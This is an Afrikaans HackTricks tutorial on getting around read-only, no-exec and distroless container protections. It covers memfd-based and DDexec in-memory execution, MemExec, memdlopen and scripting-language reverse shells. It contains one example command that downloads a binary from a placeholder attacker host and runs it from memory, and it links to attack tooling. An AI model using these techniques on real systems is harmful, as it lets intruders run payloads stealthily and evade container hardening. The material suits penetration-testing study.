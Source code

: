 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons is op soek na mense!** (_vloeiend in geskryf en gesproke Pools vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In die volgende video's kan jy die tegnieke wat op hierdie bladsy genoem word, meer in diepte verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux Geheue Manipulasie vir Stealth en Ontvlugting**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth indringings met DDexec-ng & in-geheue dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Dit is al hoe meer algemeen om linux masjiene te vind wat gemonteer is met **read-only (ro) lêerstelsel beskerming**, veral in houers. Dit is omdat dit so maklik is om 'n houer met 'n ro lêerstelsel te laat loop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tog, selfs al is die lêerstelsel as ro gemonteer, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons nie enigiets op die skyf kan skryf nie. Hierdie gids sal egter **gemonteer wees met no-exec beskerming**, so as jy 'n binêre hier aflaai, sal jy **nie in staat wees om dit uit te voer nie**.

{% hint style="warning" %}
Van 'n rooi span perspektief maak dit **moeilik om binêre te aflaai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumerators soos `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Let daarop dat ek binêre genoem het, jy kan **enige script uitvoer** solank die interpreter binne die masjien is, soos 'n **shell script** as `sh` teenwoordig is of 'n **python** **script** as `python` geïnstalleer is.

Tog is dit nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê om te loop, uit te voer nie.

## Memory Bypasses

As jy 'n binêre wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur **dit uit geheue uit te voer**, aangesien die **beskermings daar nie van toepassing is nie**.

### FD + exec syscall bypass

As jy 'n paar kragtige script enjin in die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre aflaai om uit geheue uit te voer, dit in 'n geheue lêer beskrywer (`create_memfd` syscall) stoor, wat nie deur daardie beskermings beskerm gaan word nie en dan 'n **`exec` syscall** aanroep wat die **fd as die lêer om uit te voer** aandui.

Vir hierdie kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre gee en dit sal 'n script in die aangeduide taal genereer met die **binêre gecomprimeer en b64 geënkodeer** met die instruksies om dit te **decodeer en te dekomprimeer** in 'n **fd** wat geskep is deur `create_memfd` syscall aan te roep en 'n oproep na die **exec** syscall om dit te laat loop.

{% hint style="warning" %}
Dit werk nie in ander skripting tale soos PHP of Node nie omdat hulle nie enige d**efault manier het om rou syscalls** van 'n script aan te roep nie, so dit is nie moontlik om `create_memfd` aan te roep om die **geheue fd** te skep om die binêre te stoor nie.

Boonop sal die skep van 'n **regte fd** met 'n lêer in `/dev/shm` nie werk nie, aangesien jy nie toegelaat sal word om dit uit te voer nie omdat die **no-exec beskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou toelaat om die **geheue van jou eie proses** te modifiseer deur sy **`/proc/self/mem`** te oorskryf.

Daarom, deur **die samestelling kode** wat deur die proses uitgevoer word, te beheer, kan jy 'n **shellcode** skryf en die proses "mutate" om **enige arbitrêre kode** uit te voer.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou toelaat om jou eie **shellcode** of **enige binêre** van **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode demonised**, so elke keer wanneer jy 'n **ander binêre** wil **hardloop**, hoef jy nie DDexec weer te herlaai nie, jy kan net memexec shellcode via die DDexec-tegniek hardloop en dan **kommunikeer met hierdie demon om nuwe binêre te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre van 'n PHP reverse shell** uit te voer in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **gemakliker manier om binêre** in geheue te laai om later uit te voer. Dit kan selfs toelaat om binêre met afhanklikhede te laai.

## Distroless Bypass

### Wat is distroless

Distroless houers bevat slegs die **minimale komponente wat nodig is om 'n spesifieke toepassing of diens te laat loop**, soos biblioteke en runtime-afhanklikhede, maar sluit groter komponente soos 'n pakketbestuurder, skulp of stelseldienste uit.

Die doel van distroless houers is om die **aanvaloppervlak van houers te verminder deur onnodige komponente te verwyder** en die aantal kwesbaarhede wat uitgebuit kan word, te minimaliseer.

### Reverse Shell

In 'n distroless houer mag jy **nie eers `sh` of `bash`** vind om 'n gewone skulp te kry nie. Jy sal ook nie binêre soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

{% hint style="warning" %}
Daarom, jy **sal nie** in staat wees om 'n **reverse shell** of **te enumerate** die stelsel soos jy gewoonlik doen nie.
{% endhint %}

As die gecompromitteerde houer egter byvoorbeeld 'n flask web loop, dan is python geïnstalleer, en daarom kan jy 'n **Python reverse shell** kry. As dit node loop, kan jy 'n Node rev shell kry, en dieselfde met byna enige **skriptaal**.

{% hint style="success" %}
Met die skriptaal kan jy **die stelsel enumerate** met behulp van die taal se vermoëns.
{% endhint %}

As daar **geen `read-only/no-exec`** beskermings is nie, kan jy jou reverse shell misbruik om **in die lêerstelsel jou binêre te skryf** en **uit te voer**.

{% hint style="success" %}
Echter, in hierdie tipe houers sal hierdie beskermings gewoonlik bestaan, maar jy kan die **vorige geheue-uitvoertegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sommige RCE kwesbaarhede te benut** om skriptaal **reverse shells** te kry en binêre uit geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons huur aan!** (_vloeiend Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
